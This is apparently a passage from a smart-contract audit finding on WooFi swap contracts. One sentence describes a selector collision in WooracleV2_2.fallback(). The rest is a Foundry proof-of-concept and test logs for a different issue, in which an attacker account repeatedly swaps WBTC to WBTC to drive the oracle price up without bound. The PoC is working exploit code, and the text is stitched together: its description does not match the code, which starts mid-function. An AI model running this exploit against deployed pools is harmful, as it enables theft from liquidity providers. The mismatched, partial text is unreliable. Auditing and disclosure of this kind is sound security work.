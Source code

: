 ````WooracleV2_2.fallback()```` is used to post zipped token price and state data to the contract for sake of gas saving. However, the first 4 bytes of zipped data are not reserved to distinguish the ````ZIP```` call and other normal call's function selector.
            vm.startPrank(evil);
            uint256 balance = wbtc.balanceOf(evil);
            wbtc.transfer(address(pool), balance);
            pool.swap({
                fromToken: address(wbtc),
                toToken: address(wbtc),
                fromAmount: balance,
                minToAmount: 0,
                to: evil,
                rebateTo: evil
            });
            (uint256 pastPrice, bool feasible2) = oracle.price(address(wbtc));
            assertTrue(feasible2);
            uint256 drift = ((pastPrice - initPrice) * 1e5) / initPrice;
            console2.log("Unbound price drift in attack case: ", _toPercentString(drift));    
            vm.stopPrank();
        }
    }

    function _toPercentString(uint256 drift) internal pure returns (string memory result) {
        uint256 d_3 = drift % 10;
        uint256 d_2 = (drift / 10) % 10;
        uint256 d_1 = (drift / 100) % 10;
        uint256 d0 = (drift / 1000) % 10;
        result = string.concat(_toString(d0), ".", _toString(d_1), _toString(d_2), _toString(d_3), "%");
        uint256 d = drift / 10000;
        while (d > 0) {
            result = string.concat(_toString(d % 10), result);
            d = d / 10;
        }
    }

    function _toString(uint256 digital) internal pure returns (string memory str) {
        str = new string(1);
        bytes16 symbols = "0123456789abcdef";
        assembly {
            mstore8(add(str, 32), byte(digital, symbols))
        }
    }
}
```

And the logs:
```solidity
2024-03-woofi-swap\WooPoolV2> forge test --match-contract PriceManipulationAttackTest -vv
[⠆] Compiling...No files changed, compilation skipped
[⠰] Compiling...

Running 2 tests for test/foundry/PriceManipulationAttack.t.sol:PriceManipulationAttackTest
[PASS] testMaxPriceDriftInNormalCase() (gas: 158149)
Logs:
  Max price drift in normal case:  0.502%

[PASS] testUnboundPriceDriftInAttackCase() (gas: 648243)
Logs:
  Unbound price drift in attack case:  0.499%
  Unbound price drift in attack case:  0.998%
  Unbound price drift in attack case:  1.496%
  Unbound price drift in attack case:  1.994%
  Unbound price drift in attack case:  2.491%
  Unbound price drift in attack case:  2.988%
  Unbound price drift in attack case:  3.483%
````